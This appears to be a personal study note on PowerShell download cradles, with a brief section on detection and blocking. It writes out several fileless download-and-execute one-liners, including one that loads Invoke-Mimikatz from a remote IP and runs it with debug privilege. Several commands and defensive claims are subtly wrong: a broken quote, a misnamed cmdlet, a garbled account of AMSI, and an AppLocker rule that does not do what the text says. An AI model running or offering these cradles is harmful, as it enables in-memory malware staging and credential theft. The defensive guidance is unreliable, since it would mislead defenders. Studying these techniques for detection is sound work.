 
# PowerShell Download Cradles
INIT
[Powershell](../../../coding/languages/powershell.md) download cradles are used to download and execute code *directly in memory* without it being written to disk. This helps them *bypass security* mechanisms. They're usually single-line commands and are commonly found in malware. They're typically used to implement stages of an exploit. For example, they may be used to download and run code to infiltrate additional malicious code onto a system after initial compromise. Or they might be used to set up persistence.
## Common Cmdlets
These cmdlets are commonly used in PS download cradles:
- `Invoke-WebRequest`:Used to retrieve content from a web page
- `Invoke-Expression`: (also executed using the alias `IEX`) used to execute PS commands and strings
- `System.Net.WebCleitn`: a [.NET](../../../coding/dotNET.md) class for web server interactions
## Basic Syntax
### Loading a Script into Memory
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.10.5:44444/Invoke-Mimikatz.ps1)
```
### Running the Script from Memory
```powershell
Invoke-Mimikatz -Command '"privilege::debug"'
```
## Common Download Cradle Examples
### Basic WebClient
```powershell
# Standard WebClient download cradle
IEX (New-Object Net.Webclient).downloadstring("https://example.com/script.ps1")

# PowerShell 3.0+ using Invoke-WebRequest (alias: iwr)
IEX (iwr 'https://example.com/script.ps1')
```
### COM Object Methods
```powershell
# Internet Explorer COM object
$ie = New-Object -comobject InternetExplorer.Application
$ie.visible = $False
$ie.navigate('https://example.com/script.ps1')
start-sleep -s 5
$r = $ie.Document.body.innerHTML
$ie.quit()
IEX $r

# Msxml2.XMLHTTP COM object (proxy-aware)
$h = New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','https://example.com/script.ps1',$false)
$h.send()
iex $h.responseText
```
## Detection
Modern security products use a few techniques to detect download cradles including logging, network traffic analysis, EDR, memory scanning, etc..
### `SetExecutionPolicy`
One common way organizations protect agains cradles is by restricting execution permissions using `SetExecutionPolicy`:
```powershell
# Execution Policy
Set-ExecutionPolicy Restricted
```
### AMSI
"AMSI" sandboxing (available in PowerShell 5.0+) allows admins to restrict the use of malicious commands and scripts. AMSI prevents scripts and commands from running based on their type, even if they're legitimate.

When you try to execute a command in PowerShell 5.0+, it sends the command to the *AMSI module* first which checks the command *against a set of rules*. If it finds anything malicious, it filters it out or unauthorizes the command altogether. If AMSI deems the command safe, it allows it to run.
### Blocking Download Cradle Patterns
Admins can also use `New-AppLockerPolicy` to block PS cradles from being downloaded (based on detecting common cradle characteristics):
```powershell
# AppLocker Rules
# Block PowerShell download cradle patterns
New-AppLockerPolicy -RuleType Path -Deny -Path "%SYSTEM32%\WindowsPowerShell\*\powershell.exe" -User Everyone
```


> [!Resources]
> - [Matt's DFIR blog: Download Cradles](https://mgreen27.github.io/posts/2018/downloadcradle/)
> - [BloodStiller: Understanding PowerShell Download Cradles](https://bloodstiller.com/articles/understandingdownloadcradles/)